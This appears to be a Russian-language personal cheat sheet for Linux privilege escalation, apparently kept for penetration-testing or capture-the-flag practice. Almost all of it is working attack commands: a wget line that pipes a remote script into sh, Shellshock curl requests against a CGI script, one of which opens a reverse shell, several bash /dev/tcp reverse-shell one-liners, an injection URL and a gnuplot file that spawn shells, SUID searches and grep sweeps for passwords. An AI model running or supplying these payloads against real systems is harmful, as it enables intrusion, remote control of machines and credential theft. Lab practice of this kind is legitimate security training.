 

Скрипты повышения привелегий 

https://github.com/rebootuser/LinEnum
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

wget https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh | sh

Информация о системе в txt-файле:

        дистрибутив;
            cat /etc/issue
           cat /etc/*-release
       версия ядра и разрядность;
                   cat /proc/version
                 uname -a
                  uname -mrs
                    rpm -q kernel
                   dmesg | grep Linux
                    ls /boot | grep vmlinuz-

       сетевые интерфейсы, порты, службы;
       netstat

curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh




curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.8.0.4/1234 0>&1" http://10.8.0.10/cgi-bin/shell.sh


http://localhost.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.61/4242 0>&1"`'}

bash -c "bash -i >& /dev/tcp/10.10.14.50/4444 0>&1"
/bin/bash -c 'bash -i >& /dev/tcp/192.168.50.123/4444 0>&1'
echo "system(\"bash -c 'bash -i >& /dev/tcp/10.10.14.50/4444 0>&1'\")" > file.plt

Sudo -l
find hacker -exec whoami \;
find / -perm -u=s -type f 2>/dev/null



https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi

https://gtfobins.github.io/  повышение привелегий через судо-приложения

реверс
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#reverse-shell



реверс генератор


https://www.revshells.com/




Также вы можете загрузить zip-файл с RustHound https://github.com/OPENCYBER-FR/RustHound/archive/master.zip

wget https://example.com/file.zip - стянуть файйл с сервера. У себя сервер - python3 -m http.server 8080


Запустить интерактивную оболочку

script /dev/null -c bash

повысить до tty командой 

python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm


/bin/bash -p - это команда запуска интерпретатора командной строки Bash с флагом -p, который означает "privileged mode" (привилегированный режим).

# Найти файлы владельцем которого является группа
find / -group bugtracker 2>/dev/null

# Найти файлы владельцем которого является пользователь
find / -type f -user emily 2>/dev/null

# Найти строки из всех файлов где есть passw
cat * | grep -i passw*
grep -r "passw".
# Найти запущенные процессы 
ps -aux

pspy64 (Надо скачивать)

# Найти все файлы с пермишеном S

find / -user root -perm -4000 -exec ls -ldb {} \;
find / -user root -perm -u=s -type f 2>/dev/null
